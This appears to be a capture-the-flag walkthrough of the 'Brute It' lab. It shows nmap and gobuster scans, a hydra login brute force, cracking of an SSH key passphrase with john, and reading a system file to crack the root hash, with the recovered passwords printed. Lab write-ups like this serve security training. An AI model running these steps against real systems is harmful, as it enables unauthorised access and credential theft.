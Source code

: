# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`
## command 
```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
## Result
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster

# gobuster

## command 
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
## Result
`/admin`

## /admin/sourcecode

Details Acquired
-------------------
user = john  
username = admin  
password = ???  

Brute force
------------------------------------------------------
Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
now we have:  
username = `admin`  
password = `xavier`  

We login!
We get the flag and a lonk to a file :)  

Let's download the rsa key
## Command 
```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

## Command 
```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```
#READ THE USER FLAG!!!

privilage escalation
----------------------------------------------
# sudo -l
We get that we can read the /etc/passwd file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john = football 

# Read the root flag!!!